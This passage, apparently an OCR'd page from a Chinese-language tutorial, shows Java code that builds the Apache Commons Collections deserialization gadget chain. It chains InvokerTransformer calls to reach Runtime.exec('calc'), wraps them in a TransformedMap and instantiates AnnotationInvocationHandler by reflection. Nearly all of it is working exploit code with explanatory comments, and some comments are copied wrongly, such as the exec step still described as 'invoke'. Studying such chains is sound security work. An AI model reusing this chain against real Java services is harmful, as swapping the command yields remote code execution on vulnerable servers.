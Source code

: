 ```java
                    transform 方法可以执行传递的对象的某个方法
                    由于 ChainedTransformer 的循环返回一个 Method 的实例对象
                 */
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, null}
                ),
                /*
                    由于 ChainedTransformer 的循环传入一个 Method 的实例对象
                    相当于执行 getRuntime.invoke(null);
                    new InvokerTransformer 构造方法的三个参数
                    1. 执行的方法名，字符串类型
                        invoke
                    2. 执行的方法参数类型，类数组
                        invoke 接收的类型是 Object 类和可变长 Object 类，也就是 Object 数组
                    3. 执行的方法参数值，Object 数组：
                        null 和 null
                    transform 方法可以执行传递的对象的某个方法
                    由于 ChainedTransformer 的循环返回一个 Runtime 的实例对象
                 */
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc"}
                )
                /*
                    由于 ChainedTransformer 的循环传入一个 Runtime 的实例对象
                    相当于执行 runtime.exec("calc");
                    new InvokerTransformer 构造方法的三个参数
                    1. 执行的方法名，字符串类型
                        invoke
                    2. 执行的方法参数类型，类数组
                        invoke 接收的类型是 Object 类和可变长 Object 类，也就是 Object 数组
                    3. 执行的方法参数值，Object 数组：
                        null 和 null
                    transform 方法可以执行传递的对象的某个方法
                 */
        });
        // 把两个 transformer 组合起来
        // 首先通过 constantTransformer 过滤掉内部类
        // 在把返回的 runtime 实例对象作为参数传递给 invokerTransformer
        // 执行 runtime.exec("calc");

        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "value");
        // 为了和 Target 注解的成员一致 key 赋值为 value
        Map<Object, Object> transformerMap = TransformedMap.decorate(map, null, chainedTransformer);
        // 修饰 Map，把它的 value 加上 chainedTransformer
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 根据反射获取类对象
        Constructor annotationInvocationHandlerConstructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        // 由于构造方法是默认类型，所以使用 getDeclared 获取构造方法
        // 参数分别是 Class 和 Map 类型
        annotationInvocationHandlerConstructor.setAccessible(true);
        // 修改构造方法的可见性
        Object object = annotationInvocationHandlerConstructor.newInstance(Target.class, transformerMap);
        // 传递构造方法的参数，两个参数分别为
        // 1. 注解的类对象
        // 2. Map
```